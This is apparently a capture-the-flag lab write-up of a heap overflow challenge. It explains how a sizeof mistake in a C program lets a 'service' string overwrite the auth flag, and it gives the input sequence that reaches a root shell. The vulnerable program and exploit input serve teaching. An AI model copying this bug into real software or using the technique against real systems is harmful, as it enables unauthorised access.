 So the first thing we notice is a struct. We will come back to this later

```
struct auth { //note the lack of typedef
  char name[32];
  int auth;
};

struct auth *auth; // naming the struct pointer the same as the struct its self
char *service;
```




Let's look at the auth function
```    
if(strncmp(line, "auth ", 5) == 0)
{
    auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
    memset(auth, 0, sizeof(auth));

    if(strlen(line + 5) < 31)
        strcpy(auth->name, line + 5);
}
```

and the corresponding assembly

```
auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
```

```
804866e:	83 ec 0c             	sub    esp,0xc
8048671:	6a 04                	push   0x4
8048673:	e8 08 fe ff ff       	call   8048480 <malloc@plt>
8048678:	83 c4 10             	add    esp,0x10
804867b:	a3 e8 9a 04 08       	mov    ds:0x8049ae8,eax
```
This is the main bug in this program. Because the dev wrote `sizeof(auth)` and not `sizeof(struct auth)`, there will be `0x4` bytes of memory (the size of `*auth`) allocated and not `0x24` (the size of `struct auth`).




Lets see what happens with the service case.
```
if(strncmp(line, "service", 6) == 0)
    service = strdup(line + 7); //this will stored on the heap
```
Notice that we do not have any restrictions on the amount of memory allocated.


Let's take a look at the login command

```    
if(strncmp(line, "login", 5) == 0)
{
  if(auth->auth)
  {
      printf("Welcome Adnim!\n");
      system("/bin/sh");
  } else
      printf("please enter your password\n");
}
```  

the most important line

```
if(auth->auth)
```

```
8048751:	a1 e8 9a 04 08       	mov    eax,ds:0x8049ae8
8048756:	8b 40 20             	mov    eax,DWORD PTR [eax+0x20] ;0x20 offset
8048759:	85 c0                	test   eax,eax
804875b:	74 25                	je     8048782 <main+0x187>
```


![A basic visualization](https://github.com/kablaa/CTF-Workshop/blob/master/writeups/heap2/heap.png)

So what is happening is this: Because only 0x4 bytes are being allocated on the heap, and because `auth->auth` is at `<location of auth> + 0x20`, `service` is now located _before_ `auth->auth`. So we can overwrite the value.

so we can run
```
auth lessthan32bits
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
login
```

This is why we should be careful with how we name our variables kids!
